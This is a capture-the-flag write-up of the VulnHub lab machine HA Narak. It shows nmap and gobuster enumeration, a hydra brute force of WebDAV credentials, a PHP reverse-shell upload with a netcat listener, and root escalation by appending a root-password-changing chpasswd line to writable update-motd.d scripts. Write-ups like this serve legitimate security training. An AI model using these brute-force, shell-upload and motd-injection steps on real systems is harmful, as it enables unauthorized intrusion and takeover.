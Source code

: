 ```yaml
---
title: Vulnhub - HA Narak
description: My writeup on HA Narak box.
categories:
 - vulnhub
tags: vulnhub webdav cewl hydra motd brainfuck
---
```


![](https://truthstar-tgt5cps4e32fytbrgae.netdna-ssl.com/wp-content/uploads/2015/11/Narak-Chaturdashi.jpg)

You can find the machine there > [HA Narak](https://www.vulnhub.com/entry/ha-narak,569/){:target="_blank"}

## Summary

This was a pretty interesting box, Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:4D:75 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:59:2d:22:1e:b3:6b:4f:06:bf:83:e1:cc:92:43 (RSA)
|   256 f8:ec:45:84:7f:29:33:b2:8d:fc:7d:07:28:93:31:b0 (ECDSA)
|_  256 d0:94:36:96:04:80:33:10:40:68:32:21:cb:ae:68:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: NARAK
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/images (Status: 301)
/index.html (Status: 200)
/tips.txt (Status: 200)
/webdav (Status: 401)
/server-status (Status: 403)
```

`/tips.txt` says this message: `Hint to open the door of narak can be found in creds.txt.` probably this will be useful later on privesc because now there is no `creds.txt`

`/webdav` asks for creds:

![](https://i.imgur.com/5caa2BW.png)

Because i have experience with HA series their boxes require `cewl` lot of times, so let's generate a custom wordlist with `cewl` and do a brute force with hydra:

```
$ cewl http://$ip/ -w wordlist.txt
$ hydra -L wordlist.txt -P wordlist.txt $ip http-get /webdav

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 11:33:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 6724 login tries (l:82/p:82), ~421 tries per task
[DATA] attacking http-get://192.168.1.16:80/webdav
[80][http-get] host: 192.168.1.16   login: yamdoot   password: Swarg
```

## Shell as www-data

Perfect, a few words about the webdav. 

WebDAV is an extension of the HTTP protocol that allow users to upload,download files on the apache server. I always like to use `Cadaver` as WebDAV client. Let's login and upload our shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `192.168.1.16':
Username: yamdoot
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/> exit
Connection to `192.168.1.16' closed.
```

Let's execute it and get shell:

```
$ curl --digest --user 'yamdoot:Swarg' http://$ip/webdav/shell.php
```

```
$ nc -lvp 5555                                                  
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as inferno

Let's search now the for `creds.txt` file:

```
www-data@ubuntu:/$ find / -name "creds.txt" 2>/dev/null
/mnt/karma/creds.txt
```

If we base64 decoded we can see the creds we found before:

```
www-data@ubuntu:/$ base64 -d /mnt/karma/creds.txt
yamdoot:Swarg
```

If we move now to `/mnt` we can find a bash script with brainfuck language in:

```
www-data@ubuntu:/mnt$ cat hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

Brainfuck is an esoteric programming language, let's use this [decoder](https://www.splitbrain.org/_static/ook/){:target="_blank"} and we got a password! `chitragupt`
This password works with user `inferno` we can use SSH now to login in.

```
$ ssh inferno@$ip

inferno@ubuntu:~$ whoami;id
inferno
uid=1002(inferno) gid=1002(inferno) groups=1002(inferno)
```

## Shell as root

Under `.cache` folder i found a motd file, that's a hint for privesc:

```
inferno@ubuntu:~$ cd .cache/
inferno@ubuntu:~/.cache$ ls -la
total 8
drwx------ 2 inferno inferno 4096 Sep 29 01:59 .
drwxr-xr-x 3 inferno inferno 4096 Sep 29 01:59 ..
-rw-r--r-- 1 inferno inferno    0 Sep 29 01:59 motd.legal-displayed
```

If we go to `update-motd.d` directory we can see that all files are writable. So let's simply add a command that changes root password & login in again.

```
inferno@ubuntu:~/.cache$ cd /etc/update-motd.d/
inferno@ubuntu:/etc/update-motd.d$ ls -la
total 36
drwxrwxrwx  2 root root 4096 Sep 21 09:57 .
drwxr-xr-x 80 root root 4096 Sep 22 05:14 ..
-rwxrwxrwx  1 root root 1220 Apr  9  2018 00-header
-rwxrwxrwx  1 root root 1157 Apr  9  2018 10-help-text
-rwxrwxrwx  1 root root 4251 Apr  9  2018 50-motd-news
-rwxrwxrwx  1 root root  604 Mar 21  2018 80-esm
-rwxrwxrwx  1 root root 3017 Mar 21  2018 80-livepatch
-rwxrwxrwx  1 root root  299 May 18  2017 91-release-upgrade
```

```
inferno@ubuntu:/etc/update-motd.d$ echo "echo 'root:pwned' | sudo chpasswd" >> 00-header 
inferno@ubuntu:/etc/update-motd.d$ exit
logout
Connection to 192.168.1.16 closed.
$ ssh inferno@$ip

inferno@ubuntu:~$ su - root
Password: 
root@ubuntu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read that flags:

```
root@ubuntu:~# cat root.txt 
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████
                           
                                                                                    
Root Flag: {9440aee508b6215995219c58c8ba4b45}						

!! Congrats you have finished this task !!
							
Contact us here:					
								
Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/	
																
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						
__________________________________

root@ubuntu:~# cat /home/inferno/user.txt 
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

Awesome box! :smile:
